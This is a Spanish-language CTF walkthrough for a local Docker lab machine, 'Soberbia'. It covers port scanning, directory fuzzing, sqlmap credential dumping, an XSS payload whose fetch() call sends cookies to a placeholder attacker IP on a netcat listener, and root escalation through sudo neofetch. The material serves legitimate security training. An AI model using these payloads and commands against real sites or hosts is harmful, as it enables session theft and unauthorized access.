 = Soberbia
:author: Manuel L. Quero
:revdate: 2025-04-20
:toc: left
:doctype: book

<<<

== Escenario final

En esta máquina pondremos en práctica todos los conceptos aprendidos previamente. Será una prueba final diseñada para aplicar los conocimientos adquiridos. El objetivo es lograr la escalada de privilegios hasta obtener acceso como root, partiendo de un entorno que, aunque vulnerable, se asemeja a uno real. Será necesario realizar primero un reconocimiento, seguido de la ejecución de distintos tipos de ataques. Se fomenta la exploración libre, sin seguir guías preestablecidas; no obstante, proporcionaré algunas pistas para avanzar en caso de ser necesario.

<<<

== Solucionar la máquina

En esta guía se darán pistas, principalmente herramientas y cómo usarlas. Mucha suerte.

=== Despliegue de la máquina

Como requisito, necesitaremos tener instalado docker y docker-compose.

Podemos ver como instalar docker para varias distribuciones de linux -> https://docs.docker.com/engine/install/[Instalar Docker]

Podemos ver como instalar docker-compose para varias distribuciones de linux -> https://docs.docker.com/compose/install/linux/[Instalar Docker-Compose]

Necesitaremos descargar primeramente el auto_deploy.sh, el cual se muestra como una pirámide en la página. Después deberemos meter en un directorio tanto el auto_deploy.sh como el archivo de soberbia.tar, y ejecutar los siguientes comandos.

(Si el auto_deploy no tiene permisos se los damos mediante *chmod +x*). 

[source,bash]
----
$ sudo bash auto_deploy.sh soberbia.tar
----

=== Reconocimiento

==== Nmap

Empezaremos conociendo los puertos que tiene abiertos el servidor. Para ello haremos uso primeramente de https://nmap.org/man/es/index.html[nmap].

.Nmap Recon
[%collapsible]
====
[source,bash]
----
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn (IP) -oG allPorts
----
====

* *sudo* -> Necesario porque -sS (SYN scan) requiere privilegios.
* *nmap* -> Llama a la herramienta Nmap.
* *-p-* -> Escanea todos los 65535 puertos TCP (no solo los comunes).
* *--open* -> Muestra solo los puertos abiertos (oculta filtrados/cerrados).
* *-sS* -> SYN scan (stealth scan). Muy rápido y difícil de detectar.
* *--min-rate 5000* -> Fuerza a Nmap a enviar al menos 5000 paquetes por segundo, lo que acelera el escaneo.
* *-vvv* -> Muestra información muy detallada durante el escaneo.
* *-n* -> No resuelve nombres de host (más rápido).
* *-Pn* -> No hace ping; asume que el host está activo (útil si ICMP está bloqueado).
* *(IP)* -> La dirección IP del objetivo.
* *-oG allPorts* -> Guarda los resultados en formato grepable (fácil de extraer con grep o awk) en el archivo allPorts.

image::assets/recon/nmap/nmap.png[nmap]

Como podemos ver están abiertos los puertos 80 y 22, podemos ver sus versiones con el siguiente comando:

.Nmap Versiones
[%collapsible]
====
[source,bash]
----
nmap -p (PORTS) -sC -sV (IP) 
----
====

* *-p (PORTS)* -> Indica los puertos que quieres escanear. Puedes poner un solo puerto (80), varios (22,80,443) o un rango (1-1000).
* *-sC* -> Usa los scripts por defecto de Nmap (los más comunes y seguros). Es similar a usar --script=default. Esto ayuda a detectar servicios, banners, configuraciones inseguras, etc.
* *-sV* -> Hace una detección de versión: intenta identificar el software y su versión en cada puerto abierto (por ejemplo, Apache 2.4.57).
* *(IP)* -> La dirección IP del objetivo.

image::assets/recon/nmap/nmapVer.png[Versiones nmap]

Una vez identificadas las versiones de los servicios, podemos comprobar si están desactualizadas y si presentan vulnerabilidades conocidas (CVEs) que podamos explotar. Generalmente, los exploits se encuentran en repositorios como GitHub o en bases de datos especializadas como Exploit-DB. Para facilitar esta búsqueda, podemos utilizar herramientas como *https://www.exploit-db.com/searchsploit[searchsploit]*, que permite consultar Exploit-DB desde la terminal y verificar si existen exploits públicos para una versión específica.

image::assets/recon/nmap/searchsploit.png[searchsploit]

Podemos observar que no se ha encontrado ningún exploit relevante en Exploit-DB. Es importante ser precisos con los términos de búsqueda, ya que searchsploit devuelve todos los resultados relacionados, aunque no estén directamente vinculados con nuestros servicios. Por este motivo puede aparecer algún resultado, pero no necesariamente se aplica a nuestro caso.

==== Fuzzing

Cómo ya hemos podido conocer, se trata de una página web sin certificado y con una conexión ssh, por lo que vamos a empezar analizando la página.

image::assets/recon/fuzz/pagina.png[pagina login]

Aparentemente se ve una página que no tiene nada, pero es muy posible que posea directorios y subdirectorios con archivos. Para conocer la estructura vamos hacer lo que se denomina como fuzzing de contenido, es muy útil para identificar rutas sensibles como /admin, /backup, /config.php, etc. En nuestro caso usaremos https://www.kali.org/tools/feroxbuster/[feroxbuster] y https://www.kali.org/tools/gobuster/[gobuster], y compararemos.

.Feroxbuster
[%collapsible]
====
[source,bash]
----
feroxbuster -u http://(IP) -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --depth 0 --timeout 5
----
====

* *-u http://(IP)* -> Define la URL objetivo. Puedes sustituir (IP) por una dirección IP o dominio.
* *-w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt* -> Especifica el diccionario que se usará para generar las rutas a probar (en este caso, uno mediano del paquete de DirBuster).
* *--depth 0* -> Recursividad infinita.
* *--timeout 5* -> Define un tiempo de espera de 5 segundos por solicitud antes de que feroxbuster la descarte por falta de respuesta.

image::assets/recon/fuzz/feroxbuster.png[feroxbuster]

.Gobuster
[%collapsible]
====
[source,bash]
----
gobuster dir -u (IP) -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
----
====

* *dir* -> Le especificamos que queremos buscar directorios
* *-u (IP)* -> Define la URL objetivo. Puedes sustituir (IP) por una dirección IP o dominio.
* *-w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt* ->  Especifica el diccionario que se usará para generar las rutas a probar (en este caso, uno mediano del paquete de DirBuster).

Gobuster es bastante sencillo de usar, pero un defecto que tiene es que no permite recursividad, teniendo que usar scripts para que haga dicha recursividad. Sinceramente veo feroxuster como una mejora de este.

image::assets/recon/fuzz/gobuster.png[gobuster]

==== Analisis Web

Bueno, una vez conociendo la estructura, podemos apreciar que hay un directorio en /dev, que se llama pruebas, o un alias de esta ruta que es /devzone. Esto nos sugiere que los desarrolladores podrían estar utilizando esta ruta para realizar pruebas antes de lanzar la versión final del sitio web. Es común que estas zonas contengan código en desarrollo o funcionalidades no protegidas, lo que podría representar una posible vía de explotación.

image::assets/recon/web/pruebas.png[directorio pruebas]

Dentro de login.php podemos analizar las tecnologías con *wappalyzer* o con *whatweb* y ver que tecnologías usa.

image::assets/recon/web/wappalyzer.png[wappalyzer]

.Whatweb
[%collapsible]
====
[source,bash]
----
whatweb -a 3 -v http://172.17.0.2/1/2/4/23/dev/pruebas/login.php
----
====

image::assets/recon/web/whatweb.png[whatweb]

=== Ataque

==== SQLI

Conociendo un poco más a lo que nos enfrentamos, al ser un login podemos probar con sql, pero esta vez no lo vamos a hacer manual, obviamente hay formas más eficientes cómo *sqlmap*, donde comenzaremos por un reconocimiento sabiendo si es vulnerable a SQLi.

.Sqlmap Recon
[%collapsible]
====
[source,bash]
----
sqlmap -u "http://172.17.0.2/1/2/4/23/dev/pruebas/login.php" --data "usuario=admin&password=admin" --batch --risk=3 --level=5 --technique=BEUSTQ
----
====

* *-u "http://172.17.0.2/1/2/4/23/dev/pruebas/login.php"* -> Especifica la URL del objetivo, que es un formulario de login.
* *--data "usuario=admin&password=admin"* -> Indica que se trata de una petición POST, con los parámetros usuario y password. sqlmap inyectará en estos campos. Estos los podemos encontrar si hacemos F12 en la página y observando los atributos *name* o *id* de los inputs correspondientes.
* *--batch* -> Ejecuta el escaneo de forma automática, aceptando las opciones por defecto sin preguntar al usuario. Muy útil para automatizar.
* *--risk=3* -> Aumenta el nivel de riesgo de las pruebas. Va de 0 a 3. Este nivel puede activar payloads más agresivos.
* *--level=5* -> Aumenta la profundidad del escaneo. Va de 1 a 5.
* *--technique=BEUSTQ* -> Define las técnicas de inyección SQL a usar:
** B: Boolean-based
** E: Error-based
** U: Union-based
** S: Stacked queries
** T: Time-based blind
** Q: Inline queries

image::assets/atacar/sqli/sqlmap.png[sqlmap recon]

Cómo podemos ver el parametro usuario es vulnerable, además más abajo se especifica la versión de Mariadb. Ahora vamos a atacar y obtener las credenciales.

.Sqlmap Ataque
[%collapsible]
====
[source,bash]
----
sqlmap -u "http://172.17.0.2/1/2/4/23/dev/pruebas/login.php" --data "usuario=admin&password=admin" --dump --batch
----
====

* *-u "http://172.17.0.2/1/2/4/23/dev/pruebas/login.php"* -> URL objetivo. Aquí es la página login.php, que probablemente procese un formulario de login.
* *--data "usuario=admin&password=admin"* -> Indica que se trata de una petición POST, con los datos que se envían (usuario=admin&password=admin). Estos son los campos donde sqlmap probará la inyección.
* *--dump* -> Si se encuentra una inyección válida, extraerá y mostrará automáticamente el contenido de las tablas de la base de datos.
* *--batch* -> Ejecuta en modo automático, sin pedir confirmación para cada acción (muy útil en entornos automatizados o pruebas rápidas).

image::assets/atacar/sqli/sqliattack.png[ataque sqli]

Como podemos ver, hemos obtenido las credenciales de los usuarios admin y test, por lo que podremos pasar el login.

==== Cookies

Una vez en comentarios, podemos probar cómo funciona el sistema, enviamos un mensaje y nos lo devuelve. Esto nos puede recordar al XSS que hicimos, asi que podemos obtener las cookies por *netcat* o mirar en Storage al F12.

image::assets/atacar/xss/comentarios.png[página comentarios]

Mediante el comando *nc* nos podemos conectar a los puertos TCP/UDP de un host. De este modo podemos conectarnos a otros servidores usando diferentes protocolos de red. Además, también es posible crear servidores que se mantengan a la escucha de peticiones entrantes. Los puertos se abrirán por defecto mediante el protocolo TCP, aunque también se acepta el protocolo UDP. En nuestro caso, abrimos un puerto poco frecuenta para recibir los datos, la primera vez que hicimos XSS creamos nuestro propio netcat.

.NetCat
[%collapsible]
====
[source,bash]
----
nc -lvpn 4444
----
====

image::assets/atacar/xss/netcat1.png[comando netcat]

Después, dentro del comentario meteremos el siguiente script en javascript, que nos pasará las cookies del usuario actual.

.XSS página
[%collapsible]
====
[source,javascript]
----
<script>fetch('http://(IP atacante):4444?cookie=' + encodeURIComponent(document.cookie));</script>
----
====

image::assets/atacar/xss/xss.png[xss script]

Una vez enviado dicho script veremos una cadena muy larga en GET, ese es el contenido de la cookie:

image::assets/atacar/xss/netcat2.png[envio de cookies a netcat]

Copiamos esta cadena y la decodificamos con *cyberchef*, una herramienta web muy util para estos casos. Usamos URL decode, para ver el contenido:

image::assets/atacar/xss/cyberchef.png[cyberchef]

Podemos ver que se almacenan las credenciales de ssh, han puesto el usuario y la contraseña hasheada separada por dos puntos. Para crackear hash podemos usar Crackstation:

* *Usuario:*

image::assets/atacar/xss/CrackUser.png[nombre usuario]

* *Contraseña:*

image::assets/atacar/xss/CrackPasswd.png[contraseña]

Una vez hecho esto ya tendríamos las credenciales del ssh. Pero también hay otra forma más sencilla de obtener las cookies, simplemente quería mostrar otra forma para hacer XSS y usar netcat. Le damos a F12 en la página y nos vamos a Storage, ahí podremos obtener los hashes que hemos crackeado antes.

image::assets/atacar/xss/F12.png[inspeccionar]

==== SSH y escalada de privilegios

Con las credeciales ssh, nos conectamos al servidor:

image::assets/atacar/escalada/ssh.png[conexión con el servidor]

Ahora veremos si tenemos algún privilegio:

image::assets/atacar/escalada/sudo-l.png[comando sudo -l]

Podemos ver que tenemos permisos de administración en neofetch. Por lo que buscamos en https://gtfobins.github.io/gtfobins/neofetch/[GTFOBins] si podemos escalar a través de él.

image::assets/atacar/escalada/gtfobins.png[gtfobins]

Podemos ver que, para escalar privilegios, debemos crear un archivo temporal con el contenido exec /bin/sh y pasarlo como configuración a neofetch, ejecutado con sudo. Dicho esto, copiamos y pegamos lo que nos indica y obtenemos privilegios de root.

image::assets/atacar/escalada/root.png[somos root]

== Conclusión

De esta forma hemos aprendido cómo funciona una máquina sencilla, con multiples vulnerabilidades, aprendiendo a usar herramientas reales y que normalmente se usan en estos entornos. Además hemos refrescado conocimientos y visto algunos de otra forma. Si queremos avanzar más en el mundo del hacking ético y aprender más recomiendo lo siguiente:

* Conocerte bien, saber que rama quieres aprender, centrándote en atacar o en defender, es vital para luego hacer los certificados, ya que sabrás en cual encajas mejor.
* Hacer muchas máquinas, esto ha sido un ensayo, donde hemos aprendido lo más básico, allí fuera en internet hay máquinas mucho más complejas y divertidas de explorar. Por ello recomiendo:
** https://tryhackme.com/[TryHackMe].
** https://www.hackthebox.com/[HackTheBox].
* Si tenemos tiempo, recomiendo hacer cursos, ya sea aprendiendo lenguajes de programación, cómo de otras destrezas. Siempre es útil aprender, y hay en youtube muchos canales que nos pueden ayudar o academias que ofrecen cursos gratis:
** Academias cómo Udemy.
** Canales cómo S4vitar, MoureDev, El Pingüino de Mario, NetworkChuck, David Bombal, LaurieWired.
* Por último, hacer certificaciones, hay obviamente cursos que te preparan para ello, y es muy recomendable tenerlos para demostrar que sabes hacerlo.
** Dejo este roadmap que nos puede ser muy util para planificar nuestros estudios https://pauljerimy.com/security-certification-roadmap/[CERTS].

Espero que os haya gustado este viaje por las entrañas del infierno, donde hemos aprendido los principales vectores de ataque y cómo mitigarlos. Vuestro Vírgilio se despide de vosotros.

----
"Cuanto más silencioso te vuelves, más puedes oír." 

- Baba Ram Dass
----